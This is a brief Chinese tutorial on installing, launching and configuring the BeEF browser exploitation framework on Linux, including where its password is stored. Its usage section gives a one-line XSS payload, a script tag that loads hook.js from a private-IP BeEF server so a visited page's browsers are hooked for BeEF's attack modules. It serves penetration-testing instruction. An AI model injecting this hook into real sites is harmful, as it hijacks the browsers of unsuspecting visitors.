



# Beef-xss的安装

linux安装命令

```
apt install beef-xss
```

github项目：[beefproject/beef: The Browser Exploitation Framework Project (github.com)](https://github.com/beefproject/beef)


# 启动

```
beef-xss
```



默认用户名为`beef`,密码为**自己设置的**

初次使用会让你设置密码，如果密码忘了，可以到 `/usr/share/beef-xss/config.yaml` 查看，这是Beff-xx的「配置文件」，用来保存版本、密码等配置信息。


```text
# 1、编辑配置文件，修改passwd字段
vim /usr/share/beef-xss/config.yaml

# 2、重启beef-xss服务
systemctl restart beef-xss
```


# 使用

对有xss的界面可输入

```
<script src="http://192.168.37.152:3000/hook.js"></script>
```

IP为beef所在的服务器的IP





即可上线

然后里面内置许多模块可供使用
